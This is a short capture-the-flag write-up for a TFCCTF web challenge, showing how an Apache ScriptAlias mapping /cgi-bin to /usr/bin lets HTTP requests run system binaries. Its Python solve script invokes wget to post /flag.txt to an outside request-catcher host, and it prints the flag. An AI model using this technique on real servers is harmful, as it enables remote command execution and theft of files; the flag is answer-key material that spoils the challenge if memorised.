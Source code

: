 https://ctftime.org/event/2423

# funny (web)

cgi-bin stuff

## Solution

```conf
ScriptAlias /cgi-bin /usr/bin
```
Allows us to execute any binary on the dir with http path.
It took some trial and error to get it working, i wonder if you can solve it with awk

```python
#!/usr/bin/env python3
import requests
from urllib.parse import quote, quote_plus

REMOTE = "http://challs.tfcctf.com:31311/"

payload = f"wget?--post-file+/flag.txt+https://lalalalalallalala.requestcatcher.com/"
res = requests.get(REMOTE + f"cgi-bin/{payload}", proxies={
    'http': 'http://0.0.0.0:8080',
    'https': 'https://0.0.0.0:8080'
})
print(res.text)
```

## Flag
`TFCCTF{1_4lm0st_f0rg0t_t0_push_th1s_fl4g_t0_th3_c0nt4in3r}`

shafouz 2024/08/03
